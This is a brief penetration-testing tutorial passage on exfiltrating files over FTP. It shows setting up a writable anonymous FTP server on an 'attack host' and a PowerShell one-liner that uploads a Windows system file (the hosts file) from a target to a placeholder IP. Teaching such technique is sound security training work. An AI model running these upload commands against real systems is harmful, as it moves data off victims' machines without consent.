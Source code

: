 # FTP Upload

## Python FTP Server

Before starting an FTP Server using the Python module pyftpdlib, specify the option **--write** to allow clients to upload files to our attack host.

```shell
clue@machine[/]$ sudo python3 -m pyftpdlib --port 21 --write

/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
```

## PowerShell Upload File

```powershell
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
